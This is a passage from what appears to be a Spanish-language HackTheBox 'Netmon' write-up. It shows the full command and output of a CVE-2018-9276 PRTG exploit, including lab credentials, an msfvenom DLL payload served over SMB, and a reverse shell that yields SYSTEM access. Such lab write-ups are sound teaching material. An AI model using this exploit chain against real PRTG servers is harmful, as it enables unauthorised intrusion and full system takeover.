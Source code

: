 Al realizar la explotación, verificamos que logramos obtener acceso al sistema víctima y en este caso disponemos de acceso como usuario `NT AUTHORITY\SYSTEM`.

```bash
❯ python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.16.5 --lport 443 --user prtgadmin --password PrTg@dmin2019
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.16.5 LPORT=443 OUTPUT=/tmp/lbcrsykv.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/HackTheBox/Windows/Netmon/content/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/HackTheBox/WindowsNetmon/content/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.16.5\RDDKZBLF]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.16.5:443 for the reverse shell!]
listening on [any] 443 ...
[*] Incoming connection (10.10.10.152,50211)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.152] 50212
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
